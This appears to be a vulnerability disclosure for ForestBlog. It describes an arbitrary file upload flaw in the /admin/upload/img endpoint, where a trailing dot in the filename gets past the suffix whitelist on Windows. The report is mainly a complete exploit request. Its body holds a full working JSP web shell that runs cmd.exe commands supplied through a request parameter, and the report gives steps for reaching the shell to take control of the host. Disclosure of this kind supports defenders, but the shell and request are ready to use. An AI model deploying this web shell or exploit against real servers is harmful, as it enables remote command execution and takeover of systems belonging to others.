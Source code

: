 **BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name

![image-20231212223542659](img/image-20231212223542659.png)

In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection

![image-20231212235628456](img/image-20231212235628456.png)





![image-20231212235938258](img/屏幕截图%202023-12-13%20103310.png)



```http
POST /admin/upload/img HTTP/1.1
Host: 172.24.93.157:8090
Content-Length: 1022
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6Tz1JmHBgIb3k3BS
Origin: http://172.24.93.157:8090
Referer: http://172.24.93.157:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=0AC95C46C4BFDF9EE9424A1EA925EBA2
Connection: close

------WebKitFormBoundary6Tz1JmHBgIb3k3BS
Content-Disposition: form-data; name="file"; filename="1.jpg.jsp."
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*,java.net.*"%>
<%
//
// JSP_KIT
%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>

------WebKitFormBoundary6Tz1JmHBgIb3k3BS--


```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。

Since this directory supports parsing JSP, we can upload the JSP Trojan to obtain the permissions of the target host

![image-20231213000618896](img/屏幕截图%202023-12-13%20103523.png)
![image-20231213000618897](img/屏幕截图%202023-12-13%20103536.png)

You can also see that our files were successfully uploaded locally

![image-20231213000645385](img/屏幕截图%202023-12-13%20103739.png)
